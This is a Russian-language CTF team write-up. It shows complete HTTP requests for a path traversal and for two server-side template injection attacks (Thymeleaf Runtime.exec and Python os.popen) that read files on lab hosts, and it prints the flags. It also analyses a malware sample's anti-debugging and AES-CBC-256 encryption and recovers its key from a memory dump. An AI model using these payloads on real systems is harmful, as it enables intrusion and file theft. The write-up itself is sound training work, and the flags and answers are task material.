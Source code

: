 # Отчёт команды "The Vermillion Team" (No. 26)
## Part 1. Наступательная кибербезопасность.

### Web-10

В этом задании представлена обычная уязвимость **Path Traversal**. На бэкенде можно подгружать любые файлы.
```
GET /download?file_type=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fsecret HTTP/1.1
Host: 192.168.12.10:5001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.12.10:5001/
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{P6t9_T77v6RsA1}`


### Web-20

В этом задании пейлоад работает через Spring View Manipulation + SSTI под thymeleaf. Соответственно:
```
GET /doc/__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22cat%20password.txt%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x. HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Отсюда получаем наш пароль и следующим запросом получаем флаг.
```
GET /login?password=33a61c66899af2114c8f98d80ceb2857 HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{abobovichasdfas}`

### Web-30

В этом задании есть фильтр, отсеивающий запросы, начинающиеся с `/flag`. Через // обходим данную проверку. Дальше код в любом случае выполнит наш код независимо от того, содержатся в нем запрещенные символы или нет.
```
GET //flag?name={%7b+self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()+}} HTTP/1.1
Host: 192.168.12.11:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`


## Part 2. Расследование инцидента.

### 1. Каким образом вредоносное ПО попало на компьютер пользователя? (5 PTS)

Согласно легенде, файл был отправлен Валере незнакомцем. Можно утверждать, что ВПО попало на компьютер пользователя в результате **фишинга** (человеческого фактора).

### 2. С какого сервера была скачана полезная нагрузка? (5 PTS)

...

### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО? (5 PTS)

...

### 4. Какие методы противодействия отладке использует программа? (10 PTS)

Встроенные функции (`IsDebuggerPresent()`, `CheckRemoteDebuggerPresent()`) для проверки присутствия отладчика, TLS Callbacks (`TlsAlloc()`, `TlsGetValue()`, `TlsSetValue()`).

### 5. Какой алгоритм шифрования используется при шифровании данных? (10 PTS)

Откроем файл вируса по пути `…/AppData/Roaming/Rjomba.exe`. В нем при использовании команды `binwalk` можно обнаружить `AES S-BOX` и `INVERSE AES S-BOX`. При поиске в обычном текстовом редакторе можно натнуться на сообщения про некорректное использование Cipher Mode. Перебором всех главных режимов работы AES находим упоминание **CBC** (Cipher Block Chaining). Нетрудно обнаружить и поле с упоминанием длины шифроключа (**256** бит). Значит, при шифровании данных использовался протокол *AES-CBC-256*.

### 6. Какой ключ шифрования используется при шифровании данных? (25 PTS)

Значение ключа шифрования хранится в памяти, следовательно, чтобы получить ключ, необходимо осуществить дамп памяти. Одним из инструментов, которые могут помочь нам с этим, является **Process Explorer**. Установим его и перебросим на виртуальную машину. Чтобы избежать антиотладки, переименуем тулзу и запустим Rjomba.exe. Сделаем дамп памяти процесса rjomba.exe. Дальше в этом дампе найдем строки, похожие на ключ (длиной 32):
```bash
strings Rjomba111.dmp | grep -x '.\{32,32\}'
```
Находим значение `amogusamogusamogusamogusamogusam`. Чтобы найти вектор инициализации, сделаем поиск по этой строке:
```bash
strings Rjomba111.dmp | grep -x '.\{16,32\}'
```
\- и найдём вектор иницилизации: `abababababababab`.

### 7. Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? (20 PTS)

...

### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе? (40 PTS)

...
